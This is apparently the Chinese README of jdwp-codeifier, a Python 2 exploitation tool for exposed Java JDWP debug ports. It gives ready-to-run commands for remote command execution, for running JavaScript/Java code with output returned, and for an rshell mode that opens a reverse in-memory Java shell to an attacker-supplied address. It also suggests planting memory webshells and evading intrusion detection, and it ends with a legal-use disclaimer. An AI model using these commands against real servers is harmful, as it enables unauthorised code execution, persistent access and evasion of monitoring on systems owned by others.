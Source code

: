 # jdwp-codeifier

## 介绍
对于JDWP漏洞的武器化利用最早可以追溯到2014年的项目：https://github.com/IOActive/jdwp-shellifier ，作者通过Python2实现JDWP协议，以设置断点的方式获取线程上下文从而调用Runtime.getRuntime().exec()执行系统命令

2020年Lz1y借鉴[MSF中的利用方式](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_jdwp_debugger.rb)改写jdwp-shellifier，通过对Sleeping的线程发送单步执行事件，完成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中，项目地址：https://github.com/Lz1y/jdwp-shellifier

2022年r3change基于原版断点方式的jdwp-shellifier进行改写，增加了命令执行的回显，项目地址：https://github.com/r3change/jdwp-shellifier

但JDWP漏洞的利用本身不局限于“命令执行”，而且有时候为了规避入侵检测，或者为了植入内存马等，是需要动态执行Java代码的，所以我基于jdwp-shellifier再次改写了一版进阶的JDWP漏洞利用脚本，改名为jdwp-codeifier，同样使用不需要等待断点的方式且能够动态执行Java/Js代码并获得回显

## 使用
由于原版代码依赖了很多Python2特性，改起来有点费劲，所以这一版依然还是只支持Python2，期待有师傅提交同时兼容Python2/3的PR。

### 用法
```
usage: jdwp-codeifier.py [-h] -t IP [-p Port] [-m Mode] [-c Command/Code]
                         [-a Address] [-l life]

Advanced exploitation script for JDWP by @leixiao, base on @_hugsy_, @Lz1y,
@r3change

optional arguments:
  -h, --help       show this help message and exit
  -t IP            Remote target IP (default: None)
  -p Port          Remote target port (default: 8000)
  -m Mode          command/code/rshell (default: code)
  -c Command/Code  Command or JavaScript Code (default: None)
  -a Address       The address of reverse shell (default: None)
  -l life          The survival time (minute) of the shell when unable to
                   connect to the server (default: 1)
```

### 命令执行
项目也保留了原本的命令执行功能，但命令行参数略有不同，执行 touch /tmp/success：
```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m command -c 'touch /tmp/success'
```
![img.png](README/img.png)

### 代码执行
动态代码执行是通过new javax.script.ScriptEngineManager().getEngineByName("js").eval()实现的，所以语法上是JS代码，但依然可以调用Java方法

执行系统命令并回显：
```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m code -c 'new java.util.Scanner(new java.lang.ProcessBuilder("sh","-c","whoami").start().getInputStream()).useDelimiter("-|-").next()'
```
![img.png](README/img1.png)


通过JS代码还可以动态定义类，加载外部类，插入内存马等等... 各位就自己发挥了

## 反弹Java内存Shell

https://l3yx.github.io/2023/12/03/%E9%80%9A%E8%BF%87JDWP%E6%BC%8F%E6%B4%9E%E6%B3%A8%E5%85%A5%E4%B8%8D%E4%B8%80%E6%A0%B7%E7%9A%84%E5%86%85%E5%AD%98%E9%A9%AC/#%E5%8F%8D%E5%90%91%E5%86%85%E5%AD%98Shell

```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m rshell -a 172.17.0.2:8080 -l 0.1
# -a 指定接收shell的地址
# -l 指定shell与服务器连接不上时的最大存活时间（分钟）（每隔5秒自动重连）
```
![Alt text](README/img2.png)



## 免责声明
本工具仅面向合法的学习或研究行为。在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。